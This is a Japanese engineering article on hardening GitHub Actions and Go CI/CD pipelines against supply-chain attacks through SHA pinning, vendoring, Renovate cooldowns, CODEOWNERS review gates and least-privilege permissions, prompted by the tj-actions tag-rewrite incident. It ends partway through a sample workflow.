









> 検証日: 2026-06-14 / 対象読者: 実装エンジニア・SRE・Platform Engineer
> 起点: CNCF Blog「Securing CI/CD for an open source project: locking down dependencies」(2026-06-12 公開、Cilium 保守者 André Martins / Feroz Salam による CI/CD セキュリティ 3 部作の第 2 部)

## 概要

GitHub Actions と Go modules を使う CI/CD パイプラインで、依存関係を「ビルド実行時に動的解決して信頼する」状態から「コミット済みのものをコードレビューで検査して信頼する」状態へ移す実務パターンを整理します。

このテーマが今重要である理由は二つあります。

一つ目は 2025 年 3 月に発覚した **tj-actions/changed-files 事件 (CVE-2025-30066)** です。攻撃者がリポジトリへの書き込み権限を奪い、v45.0.7 以下の複数タグを遡及的に悪意あるコミットへ書き換えました。約 23,000 リポジトリが影響を受け、CI/CD の secrets がログへ露出しました。タグ参照のみで運用していたリポジトリは、自分のワークフローを一切変えていないにもかかわらず侵害コードを実行させられました。CNCF プロジェクト Cilium の保守者による実践報告 (CNCF Blog, 2026-06-12) はこの事件を直接の動機として、実務ベースのロックダウン手順を公開しています。

二つ目は **AI コーディングエージェントの普及**です。AI はトレーニング時点で安全でも、現時点では CVE が報告済みの古いライブラリを自信を持って提案します。AI は最新の脆弱性情報を持たず、ハルシネーション由来の存在しないパッケージ名を推薦することもあります。エージェントが CI 設定や依存を変更する前提では、レビュー対象がアプリケーションコードだけでなく CI/CD 設定・依存関係・lockfile 全体へ広がります。

中核となるパラダイム転換は **「実行時の信頼 (runtime trust) → レビュー時の信頼 (review-time trust)」** です。タグ参照や、ビルド時にネットワーク越しで解決される推移的依存は、CI が実際に何を取り込むかが PR diff に現れません。SHA pin・lockfile・vendoring・cooldown でコミット済みかつ固定された状態にすると、依存の変更がレビュー可能な差分として可視化され、人間 (とエージェント) が検査できるゲートへ信頼判定が前倒しされます。

ただし各層は単層では破れどころがあります。SHA pin は初回採用 TOCTOU と推移的依存には無力であり、vendoring は巨大 diff でレビューが形骸化しえます。cooldown は短期発覚型の攻撃しかカバーしません。本記事は各層の効きどころと破れどころを両面で示し、設計原則の下での多層防御として結論づけます。

## 特徴

ロックダウンを構成する主要手法と、各手法が「実行時の信頼→レビュー時の信頼」軸でどう位置づくかを以下に示します。

- **GitHub Actions SHA digest pinning**: `uses: actions/checkout@<40桁SHA> # v6.0.2` の形式で記述します。タグは可変 (mutable) であり、攻撃者がアクションリポジトリへのアクセスを得るとタグの向き先を悪意あるコミットへ書き換えられます。GitHub 公式は「40 桁コミット SHA が現状唯一の immutable 参照手法」と明言します。
- **Go module vendoring**: `go mod vendor` で全推移的依存を `vendor/` にコピーしてコミットします。ビルド時の外部 proxy 通信を排除し、タイポスクワッティングされた新規 import が `vendor/` の diff として現れるためコードレビューで検出できます。
- **lockfile と go.sum**: Go の `go.sum` は各モジュールの暗号学的ハッシュを記録し、Google 運用の checksum transparency log `sum.golang.org` と組み合わせて改竄を検知します。npm の `package-lock.json` も同等の役割を果たし、`npm ci` で厳格な hash 検証を行います。
- **依存更新の自動化と cooldown (Renovate / Dependabot)**: `pinDigests: true` で SHA pin を維持したまま自動更新し、`minimumReleaseAge` (cooldown) で新規リリース直後の採用を回避します。短期に発覚・撤退する型のサプライチェーン攻撃を自動 merge から遠ざける時間的バッファとして機能します。
- **CODEOWNERS による権限分離**: `vendor/` や `.github/workflows/` の変更に専用チームのレビューを必須化します。手動管理が必要な依存 (協調更新が必要なライブラリ・自社フォーク) を自動更新から明示的に除外します。
- **最小権限と expression injection 対策**: `GITHUB_TOKEN` の read-only デフォルト化 (2023-02-02)、ワークフロー/ジョブ単位の `permissions:` 明示、`${{ }}` 式を環境変数経由で参照することによる injection 回避 (data と code の分離)。
- **サプライチェーン標準 (SLSA / OpenSSF Scorecard / SBOM)**: SLSA v1.0 Build Track は provenance 署名によってどのソース・ビルドからアーティファクトが生成されたかを証明し、L3 で強い isolation と改竄不能な (unforgeable) provenance を要件化します (hermetic build は v1.0 L3 の要件ではありません)。GitHub Artifact Attestations は単体で SLSA Build L2 相当を提供します (2024 年 GA)。OpenSSF Scorecard は `Pinned-Dependencies` / `Token-Permissions` などを自動採点します。SBOM (SPDX / CycloneDX) は依存の部品表として機能します。
- **GitHub 2026 Actions security roadmap**: ワークフロー全体の直接・推移的依存を SHA でロックする `dependencies:` セクション (go.mod+go.sum のワークフロー版、hash 不一致でジョブ実行前に停止) が予告されています。Immutable Releases は 2025-10-28 に GA 済みであり、リリース後のアセットとタグを変更不可にします。

### 実行時の信頼 vs レビュー時の信頼

| 項目 | 実行時の信頼 (旧来) | レビュー時の信頼 (目標) |
|---|---|---|
| **依存参照** | タグ・ブランチ参照 (可変) | 40 桁コミット SHA または lockfile に固定 (不変) |
| **推移的依存** | ビルド時に proxy / registry から動的解決 (diff に現れない) | `vendor/` または lockfile にコミット済み (PR diff に可視化) |
| **改竄検知タイミング** | ビルド実行時または事後のインシデント検知 | コミット時・PR レビュー時 (早期・fail-closed) |
| **検証主体** | CI ランナー上のビルドツール (自動・非可視) | レビュアー (人間) + CI 検証スクリプト + 静的解析ツール |
| **失敗モード** | タグ書き換え攻撃・依存混入が実行後まで検出されない | レビュー素通り (形骸化)・巨大 diff によるレビュアー疲弊 |

## 構造

### システムコンテキスト図

CI/CD 依存統制パイプラインがどのアクターや外部システムと接続するかを示します。



#### アクター

| 要素名 | 説明 |
|---|---|
| 開発者 | 機能開発・バグ修正の PR を出す。依存追加や CI 設定の変更も含む |
| SRE / Platform Engineer | パイプラインのルール設計・ツール選定・運用監視を担う |
| コーディングエージェント | AI が依存追加やワークフロー設定変更を自動提案する。学習時点の脆弱性情報を持たないため CI ゲートが最後の砦になる |

#### 外部システム

| 要素名 | 説明 |
|---|---|
| アクション・レジストリ | ワークフロー部品 (Actions) を配布するリポジトリ群。タグは可変 (mutable) であり SHA pin の参照先となる |
| モジュール・プロキシおよびチェックサム DB | 言語パッケージを配布し、暗号ハッシュで改ざんを検知する。Go では sum.golang.org が透明ログを提供する |
| 脆弱性 DB | OSV・GitHub Advisory など公開脆弱性情報の権威的ソース。スキャナが CVE 照合に使用する |
| 自動更新ボット | 依存の新バージョンを検知して更新 PR を自動生成する。cooldown 設定によって採用タイミングを制御される |

### コンテナ図

依存統制パイプラインの内部を主要構成要素 (コンテナ) に分解して示します。



#### パイプライン内コンテナ

| 要素名 | 説明 |
|---|---|
| SHA pin 層 | ワークフロー部品の参照を 40 桁コミット SHA に固定する。タグの retroactive な書き換えを無効化し、参照の不変性を保証する |
| vendoring - lockfile 層 | 言語パッケージの全推移的依存をリポジトリに封入する。ビルド時のネットワーク解決を排除し、依存コードを PR diff として可視化する |
| 自動更新 - cooldown 層 | 依存ボットが新バージョンを検知して更新 PR を作成する。minimumReleaseAge (cooldown) で新規リリース直後の採用を一定期間遅らせる |
| レビューゲート層 | CODEOWNERS でパス単位のレビュー必須化、CI でドリフト検出・脆弱性スキャンを実行する。「レビュー時の信頼」の実質的な判定点になる |
| provenance - attestation 層 | ビルド成果物に署名付き来歴 (provenance) を付与し、SBOM を生成する。SLSA ビルドレベルの達成状況を外部から検証可能にする |

#### 補助システム

| 要素名 | 説明 |
|---|---|
| チェックサム DB | パッケージの暗号ハッシュを記録した透明ログ。vendoring - lockfile 層が改ざん検知に使用する |
| 脆弱性 DB | 公開 CVE・Advisory を集約した外部データベース。レビューゲート層のスキャナが参照する |

### コンポーネント図

各コンテナを構成するコンポーネントを具体的なツール・仕組みとともに示します。

#### SHA pin 層のコンポーネント



| 要素名 | 説明 |
|---|---|
| pin 自動変換ツール | mutable なタグ参照を検出して 40 桁コミット SHA へ自動置換する。pinact (suzuki-shunsuke) や Frizbee (Stacklok) が代表例 |
| 40 桁コミット SHA 参照 | `uses: actions/checkout@<SHA> # v6.0.2` の形式で不変参照を宣言する。タグの retroactive な付け替え (tj-actions 事件) を無効化する |
| 静的解析リンター | ワークフロー YAML を解析して可変参照・過剰権限・expression injection を検出する。zizmor (Trail of Bits) や actionlint (rhysd) が代表例 |
| Immutable Releases | プラットフォームがリリース後のタグ書き換えとアセット変更を禁止する機能。2025-10-28 に GA になった |

#### vendoring - lockfile 層のコンポーネント



| 要素名 | 説明 |
|---|---|
| go.mod - go.sum | 直接・推移的依存のバージョンと暗号ハッシュを宣言する。Go 1.17 以降は全間接依存が `// indirect` コメントとともに明示される |
| vendor/ ディレクトリ | `go mod vendor` で全推移的依存のソースコードをリポジトリにコピーする。タイポスクワッティングされた新規 import が git diff として可視化される |
| ドリフト検出 | CI で `go mod vendor` を再実行して `git diff --exit-code vendor/` を走らせる。go.mod と vendor/ の不整合をビルド前に検出する |
| ビルドフラグ | `GOFLAGS=-mod=vendor` によってビルド時のモジュールプロキシ通信を完全に遮断する。Go 1.14 以降は vendor/ が存在すれば自動適用される |

#### 自動更新 - cooldown 層のコンポーネント



| 要素名 | 説明 |
|---|---|
| 自動更新設定ファイル | renovate.json5 に全ルールを宣言する。`helpers:pinGitHubActionDigests` プリセットで SHA pin を維持したまま自動更新する |
| SHA pin 維持更新 | `pinDigests: true` によって更新 PR でも SHA pin 形式を保つ。バージョン文字列はコメントとして併記される |
| 採用猶予期間 | `minimumReleaseAge` (旧 stabilityDays) で新規リリースを一定期間採用しない。Cilium は 5 日間を採用している |
| 脆弱性アラート即時 PR | `vulnerabilityAlerts` 設定で既知 CVE を cooldown を迂回して即座に PR 化する。緊急修正の適用遅延を防ぐ |
| allowlist automerge | packageRules でプラットフォーム公式や信頼済みのソースのみ自動マージを許可する。それ以外は人間レビューを必須とする |
| 手動管理除外リスト | 協調更新が必要な依存・自社パッチ適用フォーク・自社ライブラリを自動更新から明示的に除外する |

#### レビューゲート層のコンポーネント



| 要素名 | 説明 |
|---|---|
| CODEOWNERS ファイル | パスパターン単位でレビュー担当チームを宣言する。`vendor/` と `.github/workflows/` には専用チームを割り当てる |
| vendor 管理チーム | vendor/ 配下のすべての変更を審査する担当チーム。依存追加が無審査で入らないようにする |
| ワークフロー管理チーム | .github/workflows/ 配下のすべての変更を審査する担当チーム。最小権限・SHA pin・injection 対策を確認する |
| 脆弱性スキャナ | govulncheck が脆弱な関数への実際の到達パスを解析して報告する。単なるインポート検知より誤検知が少ない |
| モジュール整合性検証 | `go mod verify` がモジュールキャッシュ内の依存をダウンロード時のハッシュと照合し、改変されていないか検証する。不一致を CI で fail にする (`go.sum` を用いた検証は module-aware コマンドがダウンロード時に行う) |
| 権限・injection 検査 | zizmor・actionlint・CodeQL がワークフロー YAML の静的解析を行い、過剰権限・expression injection・可変参照を検出する |
| ボット承認検証 | 自動更新ボットが作成した PR を同ボットが承認する構成で、actor と triggering_actor を厳密に確認して偽装を防ぐ |

#### provenance - attestation 層のコンポーネント



| 要素名 | 説明 |
|---|---|
| アーティファクト署名 | GitHub Artifact Attestations が Sigstore を使って成果物に署名付き来歴を付与する。単体で SLSA v1.0 Build Level 2 に相当する。2024 年 GA |
| SBOM 生成 | ビルドに含まれる全依存の部品表を SPDX または CycloneDX 形式で出力する。Artifact Attestations にオプションとして添付できる |
| 自動採点 | OpenSSF Scorecard が Pinned-Dependencies・Token-Permissions など本パイプラインの対策項目を自動採点する |
| 隔離ビルド | Reusable Workflow と追加隔離環境を組み合わせ、強い isolation と改竄不能な provenance によって SLSA v1.0 Build Level 3 を達成する (再現可能ビルドは v1.0 L3 の要件ではない) |
| ワークフロー依存ロック | GitHub が開発中の `dependencies:` セクションによってワークフロー内の全直接・推移的アクション依存を SHA でロックする。go.mod + go.sum のワークフロー版にあたる。Public Preview を 3-6 ヶ月以内に予定している (ロードマップ宣言値) |

## データ

### 概念モデル

依存統制で登場するエンティティの所有関係と利用関係を示します。所有関係を subgraph (入れ子) で、利用関係を矢印で表現します。



### 情報モデル

主要エンティティの属性と多重度を示します。型は汎用名 (string / bool / list / map 等) を使います。



#### エンティティ定義補足

| エンティティ | 説明 |
|---|---|
| Dependency | 依存関係の抽象。GitHub Actions アクション・Go モジュール・Docker イメージなど、エコシステムをまたいだ「依存」の共通概念を表す。PinnedAction / GoModEntry / VendoredModule が具体化する |
| PinnedAction | ワークフロー内の `uses:` 行。`sha` は 40 桁コミット SHA、`versionComment` は人間可読バージョン (`# v4.2.0`) に対応する |
| VendoredModule | `go mod vendor` で `vendor/` にコピーされたモジュールの実体。`vendor/modules.txt` はパッケージとモジュールバージョンの manifest であり、ハッシュ自体は `go.sum` が保持する (`hash` 属性は概念上の整合性情報) |
| GoModEntry | `go.mod` の `require` ディレクティブ 1 件。`isIndirect` は `// indirect` の有無。`replaceTarget` は `replace` 指定時のフォーク先・ローカルパス (省略可) |
| GoSumEntry | `go.sum` の 1 行。`hashAlgorithm` は現在 `h1` (SHA-256 ベース) が標準。`sum.golang.org` (GOSUMDB) が公開後改竄を検知する |
| RenovateRule | `renovate.json5` の `packageRules` の 1 要素。マッチには `matchPackageNames` を使う (旧 `matchPackages` は非推奨)。`minimumReleaseAge` は旧称 `stabilityDays`。`automergeType` は `pr` / `branch` / `pr-comment` を取る |
| CodeownersRule | `.github/CODEOWNERS` の 1 行。`path` にはグロブパターン (`vendor/**` 等) を使う。`isRequired` は branch protection の required reviews と連動する |
| VulnerabilityAlert | 既知 CVE アラート。`source` は `github` / `gitlab` / `osv` など検知元。Renovate の `vulnerabilityAlerts` と `osvVulnerabilityAlerts` がこのエンティティに対応する |
| Attestation | SLSA v1.0 provenance のメタデータ。`predicateType` は `https://slsa.dev/provenance/v1` 相当の URI。`slsaLevel` (`L1` / `L2` / `L3`) は本モデル上の派生分類であり provenance の標準フィールドではない (Build Level は `builder.id`・署名・ビルド基盤要件・検証ポリシーから判定される)。`buildConfig` は推測属性で実装により構造が異なる |
| ReviewGate | PR レビューゲート。`actorLogin` は PR 作者。安全な automerge には `github.event.pull_request.user.login` で作者を検証する。`github.actor` / `triggering_actor` は作者性の確認に使わない |

## 構築方法

### 前提パラメータ

| 項目 | 値 / 説明 |
|---|---|
| 対象 CI/CD プラットフォーム | GitHub Actions |
| 対象言語 | Go (vendoring セクション) |
| 依存更新ツール | Renovate (セルフホストまたは Renovate App) |
| Go バージョン | 1.14 以上 (vendor 自動使用の前提) |
| 必要な権限 | リポジトリの Settings 編集権限、CODEOWNERS 設定権限 |

### GitHub Actions の SHA pin 導入

pinact は Go 製の CLI で、ワークフローファイル内のタグ参照を 40 桁コミット SHA に一括変換します。

```bash
# インストール (v4 モジュールパス)
go install github.com/suzuki-shunsuke/pinact/v4/cmd/pinact@latest

# カレントリポジトリのワークフローを一括変換 (ドライラン)
pinact run --dry-run

# 実際に書き換える
pinact run
```

変換後の形式は次のようになります。

```yaml
# 変換前
uses: actions/checkout@v4

# 変換後
uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683 # v4.2.2
```

Frizbee (Stacklok) は GitHub Actions に加えてコンテナイメージの digest pin にも対応します。

```bash
go install github.com/stacklok/frizbee@latest
frizbee actions .github/workflows/   # ワークフローを一括変換 (パスは位置引数)
frizbee image .github/workflows/     # コンテナイメージも対象
```

GitHub の Organization / Repository の Settings から "Actions > General > Actions permissions" で "Require actions to be pinned to a full-length commit SHA" を有効化すると、SHA pin されていないアクション参照はワークフロー実行前に拒否されます。SHA の末尾にコメントでタグ名を併記する形式が GitHub 公式の推奨パターンであり、コメントは Renovate が更新のたびに自動で書き直します。

### Renovate セットアップ

`.github/renovate.json5` の雛形を示します。

```jsonc
{
  "$schema": "https://docs.renovatebot.com/renovate-schema.json",
  "extends": [
    "config:best-practices",
    "helpers:pinGitHubActionDigests"
  ],
  "pinDigests": true,
  "minimumReleaseAge": "5 days",
  "internalChecksFilter": "strict",
  // vulnerabilityAlerts は既定で有効。無効化する場合のみ enabled: false を指定する
  "vulnerabilityAlerts": {},
  "osvVulnerabilityAlerts": true,
  "packageRules": [
    {
      // 信頼できる GitHub 公式アクションは冷却後に自動マージ
      "matchManagers": ["github-actions"],
      "matchPackageNames": ["actions/*", "github/*"],
      "automerge": true,
      "minimumReleaseAge": "5 days"
    },
    {
      // サードパーティ本番依存: 14 日冷却後に自動マージ
      "matchDepTypes": ["dependencies"],
      "automerge": true,
      "minimumReleaseAge": "14 days"
    },
    {
      // 手動管理対象: 自動更新から除外 (協調更新が必要な依存)
      "matchPackageNames": ["sigs.k8s.io/gateway-api"],
      "enabled": false
    }
  ]
}
```

設定の重要ポイントを示します。

- `config:best-practices` は `docker:pinDigests` / `helpers:pinGitHubActionDigests` / `security:minimumReleaseAgeNpm` を内包します。
- `helpers:pinGitHubActionDigests` は `uses:` のタグ参照を SHA に変換し、コメントにバージョンを付与します。
- `internalChecksFilter: "strict"` は内部チェック (`minimumReleaseAge` 等) が未通過の更新をフィルタします。PR 作成自体を保留するには `prCreation: "not-pending"` と組み合わせます。
- `vulnerabilityAlerts` は GitHub / GitLab が検出した CVE への修正 PR を `minimumReleaseAge` をバイパスして即時作成します。
- `osvVulnerabilityAlerts` は OSV.dev データベースと連携し、直接依存の CVE 情報を Dependency Dashboard に表示します。

### Go vendoring 導入

```bash
# ステップ 1: go.mod / go.sum を整合させる
go mod tidy

# ステップ 2: 全推移的依存を vendor/ にコピー
go mod vendor

# ステップ 3: go.mod / go.sum / vendor/ をすべてコミットする
git add go.mod go.sum vendor/
git commit -m "chore: add vendor directory"
```

Go 1.14 以上では `vendor/` ディレクトリが存在すれば `go build` / `go test` が自動で `vendor/` を使用します。外部 proxy への通信が排除されるため、エアギャップ環境でのビルドも可能になります。1.14 未満のプロジェクトでは `export GOFLAGS="-mod=vendor"` で明示的に強制します。

### 最小権限の明示 (permissions: ブロック)

```yaml
# ワークフロー全体にデフォルト権限を設定
permissions:
  contents: read  # checkout に必要な最小権限

jobs:
  build:
    permissions:
      contents: read       # checkout
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683 # v4.2.2

  release:
    permissions:
      contents: write      # リリースアセットの作成
      packages: write      # コンテナイメージの push
    runs-on: ubuntu-latest
```

`permissions:` 欠落の検出には CodeQL の `actions/missing-workflow-permissions` クエリを使います。

## 利用方法

### CI でのドリフト検証

`vendor/` が `go.mod` / `go.sum` と一致しているかを CI で検証します。ドリフト (開発者が `go mod vendor` を忘れた状態) を fail-closed で検出します。

```yaml
# .github/workflows/ci.yml
jobs:
  vendor-check:
    runs-on: ubuntu-latest
    permissions:
      contents: read
    steps:
      - uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683 # v4.2.2

      - uses: actions/setup-go@d60b41a563a30396b8dde71f2e53614d2ed3b5d7 # v5.5.0
        with:
          go-version-file: go.mod
          cache-dependency-path: vendor/modules.txt

